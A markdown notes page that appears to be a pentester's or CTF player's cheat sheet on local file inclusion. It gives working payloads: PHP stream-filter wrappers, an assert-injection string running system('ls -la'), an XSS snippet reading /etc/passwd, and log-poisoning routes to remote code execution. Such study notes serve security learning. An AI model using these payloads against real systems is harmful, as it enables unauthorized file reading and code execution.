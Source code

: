 ## LFI STUFF

- Try with and without the %00 at the end. (fixed since php 5.3)

- If it returns nothing because of encoded php files (or you can just use it to have all the output) : `php://filter/convert.base64-encode/resource=\<your ressource for example config.php\>`

- If you have an error message with assert try this : `=%27%20and%20die(show_source(%27.passwd%27))%20or%20%27` , or `'.system("ls -la").'`

- Read it in plain text : `param=php://filter/convert.iconv.utf-8.utf-16/resource=<file>`

- Try all the php streams you think about

- This resource is awesome : http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Local%20File%20Inclusion.pdf . So you can poison logs and then access to the logs to execute php, you can find logs in /proc/self. Moreover, it could be url encoded, but the authorization header is not. So put inside base64 code and you have poisoned your logs.

---

## LFI via XSS 

https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

```
Payload :  <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

(book box on HackTheBox)


---

## Practical exercise

https://medium.com/@asfiyashaikh10/file-path-traversal-and-file-inclusions-7c567da9e226

---

## HOW TO FUZZ TO FIND LOGS :

ZAProxy fuzz with Fuzz/LFI file, as burp community has a rate limit

---

## LFI Cheat sheet :

https://highon.coffee/blog/lfi-cheat-sheet/

---

## LFI to RCE

- Have to search for RCE vector :

1. Using /proc/self/environ

2. Using /proc/self/fd

3. Using log files with controllable input like:

    - /var/log/apache2/access.log

    - /var/log/apache2/error.log

    - ... (depends, OS, webserver etc...)